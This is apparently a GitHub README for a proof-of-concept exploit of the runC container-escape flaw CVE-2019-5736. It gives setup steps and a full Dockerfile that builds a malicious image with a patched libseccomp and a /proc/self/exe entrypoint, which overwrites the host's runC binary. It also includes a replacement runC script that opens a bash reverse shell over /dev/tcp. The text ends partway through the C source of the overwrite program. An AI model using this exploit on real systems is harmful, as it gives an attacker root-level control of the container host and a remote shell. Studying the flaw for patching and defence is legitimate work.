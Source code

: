 [Video](https://youtu.be/uSa0cEsHEqU)

How do I run it?
---
1. Run docker container.

2. Create malevolent docker image within following files in directory called "malevolent_image_POC"(source - https://github.com/BBRathnayaka/POC-CVE-2019-5736/tree/master/malicious_image_POC):

    a) Dockerfile
    ```
    FROM ubuntu:18.04

    # Get the libseccomp source code and required build dependecies 
    RUN set -e -x ;\
        sed -i 's,# deb-src,deb-src,' /etc/apt/sources.list ;\
        apt -y update ;\
        apt-get -y install build-essential ;\
        cd /root ;\
        apt-get -y build-dep libseccomp ;\
        apt-get source libseccomp

    # Append the run_at_link funtion to the libseccomp-2.3.1/src/api.c file and build
    ADD run_at_link.c /root/run_at_link.c
    RUN set -e -x ;\
        cd /root/libseccomp-* ;\
        cat /root/run_at_link.c >> src/api.c ;\
        DEB_BUILD_OPTIONS=nocheck dpkg-buildpackage -b -uc -us ;\
        dpkg -i /root/*.deb

    # Add overwrite_runc.c and compile
    ADD overwrite_runc.c /root/overwrite_runc.c
    RUN set -e -x ;\
        cd /root ;\
        gcc overwrite_runc.c -o /overwrite_runc

    # Add the new_runc file which is designated to replace the host runC upon execution of the image
    ADD new_runc /root/new_runc

    # Create a symbolic link to /proc/self/exe and set it as the image entrypoint
    RUN set -e -x ;\
        ln -s /proc/self/exe /entrypoint
    ENTRYPOINT [ "/entrypoint" ]
    ```
    b) new_runc file:
    ```bash
    #!/bin/bash
    bash -i >& /dev/tcp/0.0.0.0/2345 0>&1 &
    ```
    c)overwrite_runc.c file:
    ```c
    #include <sys/types.h>
    #include <sys/stat.h>
    #include <fcntl.h>
    #include <unistd.h>